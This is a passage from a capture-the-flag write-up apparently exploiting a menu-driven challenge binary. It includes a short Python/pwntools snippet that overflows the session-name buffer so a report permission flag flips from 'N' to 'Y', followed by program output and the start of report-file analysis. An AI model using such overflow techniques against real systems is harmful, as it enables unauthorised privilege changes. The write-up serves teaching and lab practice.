Could we try and use our input buffer to overflow the `N` for report to a `Y` to enable the report? After a few tries of different lengths, we succeed:

```
n_index = session_name.index('4e')
# Resend a buffer of 'Y's up to the location of the 'N'
r.sendline('3')
r.sendline('Y' * (4*(n_index-2) + 1) )
```

```
SESSION: YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
  AUTH   [Y]    REPORT [Y]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: $  
```

Notice the Report now has `[Y]`! Winning.. Let's see what we can do with reports.

## Step 3

```
ENTER COMMAND: $ 1
SELECTED: 1

ENTER REPORT, END WITH NEW LINE:

$ this is my first report!

REPORT [this is my first report!@
SENDING TO REPORT MODULE

[+] WRITING REPORT TO /home/anansi/REPORTS/20150910050336.rep
[+] DATA SUCCESSFULLY ENCRYPTED
[+] DATA SUCCESSFULLY RECORDED
[+] RECORDED [\xbf\xa3\xa2\xb8����\xa6\xb2����\xb8\xbf����\xa4\xb9\xbf���]
```

From the text, it appears that our report is encrypted in some fashion and is stored at `/home/anansi/REPORTS/20150910050336.rep`. The binary for handing reporting is found in the `/repo` directory, so analyzing that will probably be of use, but we can try some low hanging fruit first before diving into the reverse engineering.

After a few fuzzing attempts, the following is shown:
